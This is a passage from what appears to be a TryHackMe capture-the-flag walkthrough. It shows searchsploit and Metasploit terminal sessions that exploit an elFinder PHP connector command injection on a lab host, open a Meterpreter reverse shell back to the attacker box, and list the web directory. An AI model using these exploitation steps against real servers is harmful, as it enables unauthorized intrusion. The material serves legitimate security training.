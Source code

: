 ![](https://miro.medium.com/v2/resize:fit:875/1*PY0xtWNxCQ1xa4mXqnOtyQ.png)

permission denied.

root@ip-[THM AttackBox]:~/lookup# searchsploit elfinder  
----------------------------------------------------------------------------------------- ---------------------------------  
 Exploit Title                                                                           |  Path  
----------------------------------------------------------------------------------------- ---------------------------------  
elFinder 2 - Remote Command Execution (via File Creation)                                | php/webapps/36925.py  
elFinder 2.1.47 - 'PHP connector' Command Injection                                      | php/webapps/46481.py  
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)              | php/remote/46539.rb  
----------------------------------------------------------------------------------------- ---------------------------------  
Shellcodes: No Results

```
root@ip-[THM AttackBox]:~/lookup# msfupdate  
...  
root@ip-[THM AttackBox]:~/lookup# msfconsole  
...  
msf6 > search elfinder  
  
Matching Modules  
================  
  
   #  Name                                                               Disclosure Date  Rank       Check  Description  
   -  ----                                                               ---------------  ----       -----  -----------  
   0  exploit/multi/http/builderengine_upload_exec                       2016-09-18       excellent  Yes    BuilderEngine Arbitrary File Upload Vulnerability and execution  
   1  exploit/unix/webapp/tikiwiki_upload_exec                           2016-07-11       excellent  Yes    Tiki Wiki Unauthenticated File Upload Vulnerability  
   2  exploit/multi/http/wp_file_manager_rce                             2020-09-09       normal     Yes    WordPress File Manager Unauthenticated Remote Code Execution  
   3  exploit/linux/http/elfinder_archive_cmd_injection                  2021-06-13       excellent  Yes    elFinder Archive Command Injection  
   4  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection  
...  
msf6 use 4  
...  
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > show options  
...  
sf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set lhost tun0  
[-] The following options failed to validate: Value 'tun0' is not valid for option 'LHOST'.  
lhost => 10.10.113.24  
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > set RHOSTS files.lookup.thm  
RHOSTS => files.lookup.thm  
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection) > run  
...  
[*] Meterpreter session 1 opened ([THM AttackBox]:4444 -> [Target]:50940) at ....  
...  
meterpreter > ls -la  
```
Listing: /var/www/files.lookup.thm/public_html/elFinder/php  
===========================================================  
  